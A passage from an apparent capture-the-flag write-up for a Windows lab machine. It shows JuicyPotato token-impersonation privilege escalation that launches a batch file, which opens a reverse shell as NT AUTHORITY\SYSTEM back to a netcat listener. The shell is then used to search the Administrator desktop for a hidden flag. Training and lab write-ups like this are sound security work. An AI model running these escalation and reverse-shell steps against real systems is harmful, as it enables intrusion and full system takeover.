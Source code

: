 We can specificly run the ```attack.bat``` as our program with Impersonated Token, which triggers a reverse shell inside it

Now running ```JuicyPotato.exe```,

```c
C:\Users\kohsuke\Documents>.\jp.exe -t * -p attack.bat -l 7878
.\jp.exe -t * -p attack.bat -l 7878
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 7878
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

It spawns a reverse shell with ```NT AUTHORITY\SYSTEM``` rights

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 6767
listening on [any] 6767 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.63] 49688
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> cd ../../
PS C:\> cd Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-ar---       12/24/2017   2:51 AM             36 hm.txt                        
-a----        11/8/2017   9:05 AM            797 Windows 10 Update             
                                                 Assistant.lnk                 


PS C:\Users\Administrator\Desktop> more hm.txt
The flag is elsewhere.  Look deeper.

PS C:\Users\Administrator\Desktop>
```

It seems like the flag is hidden,

Look deeper?? Viewing hidden files

Reference [Blog](https://davidhamann.de/2019/02/23/hidden-in-plain-sight-alternate-data-streams/
)
